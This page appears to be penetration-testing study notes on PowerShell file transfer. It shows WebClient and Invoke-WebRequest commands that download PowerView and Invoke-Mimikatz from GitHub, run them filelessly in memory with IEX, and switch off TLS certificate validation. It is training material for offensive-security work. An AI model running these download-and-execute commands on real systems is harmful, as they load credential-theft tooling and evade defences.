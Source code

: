 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# PowerShell Web Download

Most companies allow HTTP and HTTPS outbound traffic through the firewall to allow employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks.

PowerShell offers many file transfer options. In any version of PowerShell, the **System.Net.WebClient** class can be used to download a file over HTTP, HTTPS or FTP. The following table describes **WebClient** methods for downloading data from a resource:

| Method              | Description                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| OpenRead            | Returns the data from a resource as a Stream.                                                |
| OpenReadAsync       | Returns the data from a resource without blocking the calling thread.                        |
| DownloadData        | Downloads data from a resource and returns a Byte array.                                     |
| DownloadDataAsync   | Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| DownloadFile        | Downloads data from a resource to a local file.                                              |
| DownloadFileAsync   | Downloads data from a resource to a local file without blocking the calling thread.          |
| DownloadString      | Downloads a String from a resource and returns a String.                                     |
| DownloadStringAsync | Downloads a String from a resource without blocking the calling thread.                      |

## Invoke-WebRequest File Download

From PowerShell 3.0 onwards, the **Invoke-WebRequest** cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases _iwr_, _curl_, and _wget_ instead of the Invoke-WebRequest full name.

Example usage:

```powershell
PS C:\> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

## Web.Client File Download

We can specify the class name **Net.WebClient** and the method **DownloadFile** with the parameters corresponding to the URL of the target file to download and the output file name.

Example command:

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

Download PowerView:

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

Download PowerView asynchronously:

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

## Fileless Download

Fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the **Invoke-Expression** cmdlet or the alias **IEX**.

IEX example:

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX pipeline input:

```powershell
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

***

## Debug

#### Internet Explorer First Launch

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter **-UseBasicParsing**.

```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

Example:

```powershell
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

#### SSL/TLS Secure Channel: Certificate is not Trusted

Bypass this error with the following command:

```powershell
PS C:\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
